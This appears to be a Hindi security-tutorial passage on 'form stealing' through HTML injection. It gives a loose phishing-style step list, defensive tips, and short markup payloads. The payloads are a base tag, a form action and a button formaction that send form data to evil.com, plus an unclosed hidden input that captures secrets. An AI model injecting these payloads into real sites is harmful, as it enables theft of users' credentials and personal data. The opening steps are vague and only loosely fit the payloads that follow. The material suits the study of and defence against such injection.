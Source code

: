 #### विवरण

फॉर्म चोरी एक तकनीक है जिसमें हम एक वेब पेज पर मौजूद फॉर्म के डेटा को चोरी करते हैं। यह तकनीक उपयोगकर्ताओं के द्वारा भरे गए व्यक्तिगत और सांख्यिकीय जानकारी को प्राप्त करने का एक अविधि है। इसका उपयोग अधिकांशतः फिशिंग हमलों में किया जाता है, जहां एक हमलावर वेबसाइट बनाई जाती है जो मूल वेबसाइट की तरह दिखती है और उपयोगकर्ताओं को धोखा देकर उनकी जानकारी चुरा लेती है।

#### तकनीक

फॉर्म चोरी के लिए, हम निम्नलिखित कदमों का पालन करते हैं:

1. एक वेब पेज का चयन करें जिसमें फॉर्म होता है जिसका डेटा हम चोरी करना चाहते हैं।
2. वेब पेज के HTML कोड को जांचें और फॉर्म के नाम, इनपुट फ़ील्ड्स और उनके नामों को ध्यान से नोट करें।
3. एक वेब पेज बनाएं और उसे अपनी वेबसाइट पर होस्ट करें।
4. नई वेब पेज में एक फॉर्म बनाएं और उसे मूल वेब पेज के फॉर्म के साथ एकीकृत करें।
5. फॉर्म के इनपुट फ़ील्ड्स को उपयोगकर्ताओं के द्वारा भरे गए डेटा के साथ पूर्ण करें।
6. फॉर्म को अपनी वेबसाइट पर सबमिट करें और उपयोगकर्ताओं को धोखा देंकर उनकी जानकारी चोरी करें।

#### सुरक्षा सुझाव

फॉर्म चोरी से बचने के लिए, निम्नलिखित सुरक्षा सुझावों का पालन करें:

- वेबसाइटों पर HTTPS का उपयोग करें ताकि डेटा एन्क्रिप्टेड हो सके।
- उपयोगकर्ताओं को जागरूक करें कि वे किसी भी वेबसाइट पर अपनी व्यक्तिगत जानकारी को देने से पहले उसकी प्रामाणिकता की जांच करें।
- फॉर्म फ़ील्डों के लिए वैधेयता नियम और इनपुट सत्यापन का उपयोग करें।
- वेबसाइटों को नियमित रूप से सुरक्षा स्कैन करें और सुरक्षा के लिए उन्नत उपाय अपनाएं।
```markup
<base href='http://evil.com/'>
```
तो, उन फॉर्म्स को जो डेटा को पथ को भेजते हैं (जैसे `<form action='update_profile.php'>`) वह डेटा खतरनाक डोमेन को भेजेंगे।

### फॉर्म्स चोरी 2

एक फॉर्म हेडर सेट करें: `<form action='http://evil.com/log_steal'>` यह अगले फॉर्म हेडर को ओवरराइट करेगा और फॉर्म के सभी डेटा को हमलावर्धक को भेज दिया जाएगा।

### फॉर्म्स चोरी 3

बटन फॉर्म की जानकारी को भेजने वाले URL को "formaction" गुणधर्म के साथ बदल सकता है:
```markup
<button name=xss type=submit formaction='https://google.com'>I get consumed!
```
एक हमलावर इसका उपयोग जानकारी चुराने के लिए कर सकता है।

### साफ पाठ रहस्यों की चोरी 2

नवीनतम उल्लिखित तकनीक का उपयोग करके फॉर्म चोरी करने के लिए (नए फॉर्म हैडर को इंजेक्ट करना) आप एक नया इनपुट फ़ील्ड इंजेक्ट कर सकते हैं:
```markup
<input type='hidden' name='review_body' value="
```
और यह इनपुट फ़ील्ड इसके डबल कोट और HTML में अगले डबल कोट के बीच की सभी सामग्री को समेत करेगा। यह हमला "_**स्पष्ट पाठ रहस्यों की चोरी**_" को "_**फ़ॉर्म2 की चोरी**_" के साथ मिलाता है।
